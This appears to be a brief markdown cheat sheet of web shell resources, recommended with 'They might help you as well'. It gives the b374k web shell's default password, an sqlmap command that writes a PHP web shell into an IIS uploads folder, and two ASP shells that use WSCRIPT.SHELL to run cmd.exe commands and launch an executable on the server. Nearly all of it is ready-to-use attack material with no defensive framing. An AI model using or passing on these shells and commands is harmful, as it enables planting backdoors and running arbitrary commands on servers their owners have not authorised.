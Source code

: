 These web shells helped tons. They might help you as well.

### [b374k webshell password]
```
b374k
```

### [Uploading Webshell using sqlmap]
```
sqlmap -r file_request --file-write=/root/pwn/http/winterwolfshell.php --file-dest=/inetpub/wwwroot/uploads/winterwolfshell.php --batch
```

### [asp based webshell]
```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c dir C:\test > C:\inetpub\results.txt",0,True)
%>

<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c C:\test\re.exe",0,True)
%>
```
